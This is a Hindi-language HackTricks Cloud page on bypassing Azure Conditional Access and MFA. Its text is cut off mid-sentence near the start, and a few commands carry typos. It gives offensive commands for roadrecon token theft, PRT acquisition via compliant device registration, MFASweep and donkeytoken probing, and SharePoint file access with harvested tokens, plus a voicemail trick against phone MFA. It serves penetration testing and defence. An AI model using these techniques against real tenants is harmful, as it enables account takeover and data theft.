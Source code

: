 # Az - Conditional Access Policies / MFA Bypass

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

Azure Conditional Access policies माइक्रोसॉफ्ट एज़्यूर में सेट किए गए नियम हैं जो कुछ **शर्तों** के आधार पर एज़्यूर सेवाओं और एप्लिकेशन्स तक पहुंच नियंत्रित करने के लिए हैं। ये नीतियाँ संगठनों की संसाधनों को सुरक्षित बनाने में मदद करती हैं जो सही परिस्थितियों के तहत सही पहुंच नियंत्रण लागू करके।\
शर्तमुक्त पहुंच नीत
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
चूंकि Microsoft Teams ऐप में कई अनुमतियाँ हैं, आप उस एक्सेस का उपयोग कर सकेंगे।

{% hint style="success" %}
आप रोडटूल्स के डेटाबेस में पूर्वनिर्धारित Office365 अनुमतियों के साथ अधिक सार्वजनिक एप्लिकेशन्स का आईडी खोज सकते हैं:
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

यह हमला विशेष रूप से दिलचस्प है क्योंकि डिफ़ॉल्ट रूप से सार्वजनिक Office365 एप्लिकेशन कुछ डेटा तक पहुंचने की अनुमति रखेंगे।

### अन्य एप्लिकेशन

डिफ़ॉल्ट रूप से, उपयोगकर्ताओं द्वारा बनाई गई अन्य एप्लिकेशनों को अनुमतियाँ नहीं होंगी और वे निजी हो सकती हैं।\
हालांकि, उपयोगकर्ता भी **सार्वजनिक एप्लिकेशन** बना सकते हैं जिन्हें कुछ **अनुमतियाँ** दी जा सकती हैं।

एक संभावित स्थिति जहाँ एक नीति सेट की गई है कि **एक एप्लिकेशन तक पहुंचने के लिए MFA की आवश्यकता** है जब उपयोगकर्ता एक **ब्राउज़र** का उपयोग कर रहा है (शायद क्योंकि यह एक वेब एप्लिकेशन है और इसलिए यह एकमात्र तरीका होगा), अगर एक **प्रॉक्सी एप्लिकेशन** है - जो उपयोगकर्ताओं की ओर से अन्य एप्लिकेशनों के साथ **संवाद करने की अनुमति देता है**-, तो उपयोगकर्ता **प्रॉक्सी एप्लिकेशन में लॉगिन** कर सकता है और फिर इस प्रॉक्सी एप्लिकेशन के माध्यम से **पहले से ही MFA सुरक्षित एप्लिकेशन में लॉगिन** कर सकता है।

[**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) और [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken) तकनीकों की जांच करें।

## अन्य Az MFA बायपास

### रिंग टोन

एक Azure MFA विकल्प है कि **कॉन्फ़िगर किए गए फ़ोन नंबर में एक कॉल प्राप्त करें** जहाँ उपयोगकर्ता से **चार `#` भेजने** के लिए कहा जाएगा।

{% hint style="danger" %}
चार्स केवल **टोन्स** होते हैं, एक हमलावर **फ़ोन नंबर के वॉयसमेल** संदेश को कंप्रोमाइज़ कर सकता है, संदेश के रूप में **`#` का टोन** कॉन्फ़िगर कर सकता है और फिर, MFA का अनुरोध करते समय सुनिश्चित कर सकता है कि **पीड़ित का फ़ोन व्यस्त है** (उसे कॉल कर रहा है) ताकि Azure कॉल को वॉयसमेल पर पुनर्निर्देशित किया जाए।
{% endhint %}

### अनुरूप उपकरण

नीतियाँ अक्सर एक अनुरूप उपकरण या MFA की मांग करती हैं, इसलिए एक **हमलावर एक अनुरूप उपकरण रजिस्टर कर सकता है**, एक **PRT** टोकन प्राप्त कर सकता है और **इस तरह से MFA को बायपास** कर सकता है।

Intune में **एक अनुरूप उपकरण रजिस्टर करने** से शुरू करें, फिर **PRT प्राप्त** करें:
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
## उपकरण

### [roadrecon](https://github.com/dirkjanm/ROADtools)

सभी नीतियों को प्राप्त करें
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep एक PowerShell स्क्रिप्ट है जो एक दिया गया सेट क्रेडेंशियल का उपयोग करके विभिन्न माइक्रोसॉफ्ट सेवाओं में लॉगिन करने का प्रयास करेगा और यह सामग्री को पहचानने का प्रयास करेगा कि क्या MFA सक्षम है। यहाँ तक कि यदि शर्ताधारित पहुंच नीतियाँ और अन्य बहु-कारक प्रमाणीकरण सेटिंग्स कैसे कॉन्फ़िगर की गई हैं, तो कुछ प्रोटोकॉल एकल कारक रह सकते हैं। इसमें ADFS कॉन्फ़िगरेशन के लिए एक अतिरिक्त जांच भी है और यदि पहचाना जाता है तो ऑन-प्रेम ADFS सर्वर में लॉगिन करने का प्रयास कर सकता है।
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

डॉनकी टोकन एक सेट कार्यों है जिनका उद्देश्य सुरक्षा सलाहकारों की मदद करना है जो शर्ताधारित पहुंच नीतियों की मान्यता प्रमाणित करने की आवश्यकता है, 2FA सक्षम Microsoft पोर्टल के लिए परीक्षण करता है, आदि।
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**प्रत्येक पोर्टल** की जांच करें यदि **MFA के बिना लॉगिन** संभव है:
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
क्योंकि **Azure** **पोर्टल** **सीमित नहीं है**, इसलिए **पोर्टल एंडपॉइंट से टोकन एकत्र करना संभव है ताकि पिछले निष्पादन द्वारा पहचानी गई किसी भी सेवा तक पहुंचा जा सके। इस मामले में Sharepoint पहचाना गया था, और इसे एक्सेस करने के लिए एक टोकन का अनुरोध किया गया था:
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

मान लीजिए कि टोकन के पास अनुमति Sites.Read.All (शेयरपॉइंट से) है, तो यदि MFA के कारण आप वेब से शेयरपॉइंट तक पहुंच नहीं सकते हैं, तो जनरेट किए गए टोकन के साथ फ़ाइलों तक पहुंचना संभव है:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## संदर्भ

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

